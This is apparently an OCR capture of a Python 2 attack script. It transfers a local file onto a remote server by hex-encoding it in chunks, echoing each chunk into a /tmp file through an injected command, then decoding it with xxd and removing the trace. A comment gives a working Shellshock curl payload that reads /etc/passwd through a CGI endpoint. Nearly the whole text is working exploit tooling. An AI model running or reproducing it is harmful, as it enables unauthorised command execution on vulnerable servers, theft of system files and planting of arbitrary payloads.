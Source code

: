 ```python

    if not r.status_code == 200:
        raise Exception(" ! Command %s failed")

if __name__ == "__main__":

    if len(sys.argv) < 3:

        print " * Usage %s <source> <destination>" % sys.argv[0]
        sys.exit(1)

    # vuln@ curl -i -X OPTIONS -H "User-Agent: () { :;};echo;/bin/cat /etc/passwd" "http://192.168.217.163:591/cgi-bin/cat"
    source = sys.argv[1].strip()
    destination = sys.argv[2].strip()
    print " * Starting transfer of local '%s' to remote '%s'" % (source, destination)

    hex_destination_file = "/tmp/" + binascii.b2a_hex(os.urandom(15)) + ".txt"
    print " * Temp file on remote will be: %s" % hex_destination_file

    # prepare a hex version of the local file
    with open(source) as f:
        source_file = f.read()

    # encode and split the source into chunks of 60
    source_file = source_file.encode('hex')
    source_data = {}
    source_data = [source_file[i:i+60] for i in range(0, len(source_file), 60)]

    print " * Transferring %d chunks to %s" % (len(source_data), hex_destination_file)
    iteration = 1
    for chunk in source_data:

        # check if it is start of file or append
        if iteration == 1:
            append = ">"
        else:
            append = ">>"

        # prepare the command and run it
        command = "echo '%s' %s %s" % (chunk, append, hex_destination_file)
        do_command(command)

        print " * Chunk %d/%d transferred" % (iteration, len(source_data))
        iteration += 1

    print " * Decoding hex on remote"
    command = "/usr/bin/xxd -r -p %s > %s" % (hex_destination_file, destination)
    do_command(command)

    print " * Cleaning up temp file %s" % hex_destination_file
    command = "/bin/rm -f %s" %  hex_destination_file
    do_command(command)

    print " * Local '%s' transferred to remote '%s'" % (source, destination)
```
